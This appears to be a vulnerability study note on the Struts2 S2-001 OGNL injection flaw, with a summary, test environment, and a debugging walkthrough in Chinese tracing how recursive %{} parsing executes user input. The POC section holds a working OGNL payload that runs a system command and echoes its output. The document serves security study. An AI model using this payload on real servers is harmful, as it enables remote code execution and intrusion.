



# S2-001 Demo

## Summary

Impact of vulnerability: Remote Code Execution

Affected Software: `WebWork 2.1` (with `altSyntax` enabled), `WebWork 2.2.0` - `WebWork 2.2.5`, Struts 2.0.0 - Struts 2.0.8

Problem: The `'altSyntax'` feature of `WebWork 2.1`+ and Struts 2 allows `OGNL` expressions to be inserted into text strings and is processed recursively. This allows a malicious user to submit a string, usually through an HTML text field, containing an `OGNL` expression that will then be executed by the server if the form validation has failed.

## Environment

Struts2 Version: `struts-2.0.1-all`

Server: `Tomcat 8.5.53`

IDE: `idea 2020.1.1 ULTIMATE`

## POC


payload:

```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

## Debug

我们首先来了解一下Struts2 中的validation机制。

validation依靠validation和workflow两个拦截器。validation会根据配置的xml文件创建一个特殊字段错误列表，而workflow则会根据validation的错误对其进行检测，如果输入有值，将会把用户带回到原先提交表单的页面，并且将值返回。



代码中判断输入不为admin则返回error触发错误，workflow将输入返回到表单中：



这是为什么payload输入到框中，为什么有回显的原因。

再看代码为什么执行。

调试发现，在服务器将用户输入的值返回到提交表单时，服务器会解析tag标签，并对OGNL表达式进行解析，包括用户输入的value。



在doEndTag和doStartTag处下断点：

`struts2-core-2.0.1.jar!/org/apache/struts2/views/jsp/ComponentTagSupport.class:22`

`struts2-core-2.0.1.jar!/org/apache/struts2/views/jsp/ComponentTagSupport.class:28`


跟进，发现判断了一个altSyntax语法开关，如果开启则给参数加上%{}


跟进findValue函数，可以看到有两重循环，作用是将%{}之间的表达式取出来执行。第一次先取出username:


通过OgnlUtil.getValue取出username对应的值%{1+1}


开始第二次循环


取出了1+1，并计算了结果。


最后一次循环，expression.indexOf未找到%{，则退出循环。


## Reference

- [【Struts2-命令-代码执行漏洞分析系列】S2-001](https://xz.aliyun.com/t/2044)
- [S2-001](https://cwiki.apache.org/confluence/display/WW/S2-001)
- https://xz.aliyun.com/t/2044
- https://www.codemonster.cn/2018/03/28/2018-struts2-001/
- https://www.cnblogs.com/magic-zero/p/8214034.html
- https://xz.aliyun.com/t/111/
